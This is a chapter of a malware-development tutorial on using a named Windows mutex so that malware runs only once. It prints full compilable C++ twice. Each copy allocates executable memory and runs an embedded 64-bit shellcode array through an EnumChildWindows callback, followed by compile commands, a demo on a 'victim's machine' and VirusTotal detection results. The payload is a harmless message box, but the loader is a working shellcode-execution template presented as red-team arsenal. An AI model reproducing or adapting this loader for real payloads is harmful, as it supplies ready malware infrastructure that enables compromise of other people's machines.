


\newpage
\subsection{39. malware development tricks. Mutex. C++ example.}

﷽

{width="80%"}    

This post is the result of my own research into the malware dev trick: prevent self-execution via mutexes.     

Sometimes, when developing malware, for maximum stealth, it is necessary that the program be launched only once. To do this, according to the [MSDN documentation](https://learn.microsoft.com/en-us/dotnet/standard/threading/mutexes), we can use mutexes.

### mutex

For simplicity, we can use `CreateMutexA` function from Windows API:    

```cpp
HANDLE CreateMutexA(
  LPSECURITY_ATTRIBUTES lpMutexAttributes,
  BOOL                  bInitialOwner,
  LPCSTR                lpName
);
```

### practical example

In the simplest implementation, you can use this function in this way:    

create mutex with specific name, so multiple instances can detect it:    

```cpp
hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
```

check if mutex already exists, exit from app:    

```cpp
if (GetLastError() == ERROR_ALREADY_EXISTS) {
  // if this process created the mutex, exit the application
  if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
    CloseHandle(hMutex);
    return 0;
  }
}
```

otherwise, run malicious logic and close the mutex when done:    

```cpp

//...
// malicious logic
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

//...

// cleanup
if (hMutex)
  CloseHandle(hMutex);
return 0;
```

So, full source code is looks like:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/01/04/malware-tricks-26.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

As you can see, I use running shellcode [via EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html) logic. Also, as usually, use `meow-meow` messagebox payload.     

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Then, move to victim's machine (in my case `Windows 10 x64`) and run:    

```powershell
.\hack.exe
```

{width="80%"}    

Then, try to run this "malware" again from another Powershell terminal:    

{width="80%"}    

As you can see, nothing started, we only have one messagebox.    

For checking correctness, we can add some print to our code:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/
*/
#include <windows.h>
#include <cstdio>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      printf("MeowMeowMutex already exists, app already running =^..^=\n");
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

Then, repeat our steps again:    

{width="80%"}    

As you can see everything is worked perfectly!    

Let’s go to upload `hack.exe` to VirusTotal:    

{width="80%"}    

**So, 17 of 62 AV engines detect our file as malicious.**     

[https://www.virustotal.com/gui/file/153d249063f46b0d56603d7aab7e43a3361d74e9852367d8730f5e57fb9f5b9f/details](https://www.virustotal.com/gui/file/153d249063f46b0d56603d7aab7e43a3361d74e9852367d8730f5e57fb9f5b9f/details)      

This is trick is used for example by [Conti ransomware](https://attack.mitre.org/software/S0575/), [Hellokitty ransomware](https://attack.mitre.org/software/S0617/) and [AsyncRAT](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp) in the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[Conti](https://attack.mitre.org/software/S0575/)      
[Hellokitty](https://attack.mitre.org/software/S0617/)      
[Hellokitty source code](https://github.com/Black-Hell-Team/Hello-Kitty)     
[AsyncRAT source code](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-01-04-malware-tricks-26)     
